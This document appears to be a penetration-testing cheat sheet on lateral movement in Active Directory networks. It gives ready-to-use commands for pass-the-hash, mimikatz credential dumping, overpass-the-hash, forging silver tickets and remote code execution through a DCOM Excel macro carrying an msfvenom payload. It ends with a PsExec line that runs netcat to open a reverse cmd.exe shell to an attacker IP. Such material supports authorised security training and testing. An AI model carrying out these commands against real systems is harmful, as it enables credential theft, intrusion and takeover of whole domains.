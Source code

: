 # Lateral Movement

>Since we have located high-valuable targets logged on some workstations/servers and we have obtained password hashes and tickets from current machine, we can move laterally to try compromise these high value targets that could lead to full AD compromise.

## Pass the Hash

> Allows us to authenticate to a remote system or service using the NTLM hash of a user (will not work for Kerberos authentication).

 ```bash
#From our kali machine:
pth-winexe -U $USER%$NTLMHASH //$IPADDRESS cmd
#Change $IPADDRESS to the remote machine.
 ```

**Note:** This method only works for AD domain accounts and the built-in local administrator account.

_____

## Overpass the Hash

Thanks to this method we can abuse the NTLM hash of a user to gain a full kerberos TGT or TGS which grants us access to another machine or service as that user.

Imagine we have compromised a workstation and there are cached NTLM hashes of other users. The first step is to grab the NTLM hash of a user using mimikatz:

```
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

Now we have to use the following mimikatz tool open a powershell prompt as the context of this user:

```bash
sekurlsa::pth /user:$USERNAME /domain:$DOMAINNAME /ntlm:$NTLMHASH /run:PowerShell.exe
```

Next, if there are no Kerberos tickets cached, we have to generate one:

```bash
#List current tickets:
klist

#Generate a TGT by authenticating somewhere:
net use \\$DCHOSTNAME
```

Now we have a full Kerberos TGT which allows us to use any tools that rely on Kerberos authentication:. For example, login as this user on the domain controller:

```bash
.\PsExec \\$DCHOSTNAME cmd.exe
```

_____

## Pass The Ticket

The overpass the hash used before provides us with a TGT ticket which is only usable on the machine it was created for. Pass The Ticket attack takes advantage of the TGS which may be exported and re-injected elsewhere used to authenticate to a specific service.

With the SPN service account password or its associated NTLM hash we can forge our own TGS to access the target resource with any permission we desire (silver ticket).

We make use of mimikatz kerberos::golden command to create this ticket.

**Step 1:** Find the SID of the domain:

```bash
whoami /user
#SID is all the output minus the last part (last 4 numbers)
```

**Step 2:** Craft the ticket:

```bash
kerberos::golden /user:$DOMAINUSER /domain:$DOMAIN /sid:$SID /target:$SPNNAME /service:$SERVICE /rc4:$NTLMHASH /ptt

#user: Domain user we currently are, not the service user.
#service: First part of serviceprincipalname (until "\").
#ppt: Injects directly the ticket in memory. Remove to save the ticket on disk.
#rc4: NTLM hash of the password.
```

This service ticket will have permissions as built-in local administrator user (500) and Domain Admins (plus other high privileged) AD group. Once loaded into memory, we can interact with the service and gain access to any information, including command execution.

_____

## DCOM

We can use DCOM (like Macros from Excel) to perform a lateral movement technique. This method will allow us to execute a Visual Basic Macro remotely. Note: Office shoud lbe installed on the remote machine.

**Step1:** Create a document and paste the following macro:

```bash
#Create the payload with msfvenom with format (hta-psh)
Sub MyMacro()
Dim Str As String

Str = Str + "$PAYLOAD"
Str = Str + "$PAYLOAD"

Shell (Str)

End Sub
```

**Step 2:** Execute the following code on a PS window in order yo upload the file to the remote machine and execute the macro.

```bash
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "$REMOTEIPADDRESS"))
$LocalPath = "$LOCALPATH\$FILENAME.xls"
$RemotePath = "\\$REMOTEIPADDRESS\c$\$FILENAME.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
$Path = "\\$REMOTEIPADDRESS\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
$Workbook = $com.Workbooks.Open("C:\$FILENAME.xls")
$com.Run("mymacro")

#Note: filename must be .xls
```

_____

## PsExec

Connect to a remote machine using known credentials or hashes:

```bash
#32 bits:
PsExec.exe -u $USERNAME -p $PASSWORD C:\temp\nc.exe 192.168.119.139 1233 -e C:\windows\system32\cmd.exe

#64 bits:
PsExec64.exe -u $USERNAME -p $PASSWORD C:\temp\nc.exe 192.168.119.139 1233 -e C:\windows\system32\cmd.exe
```
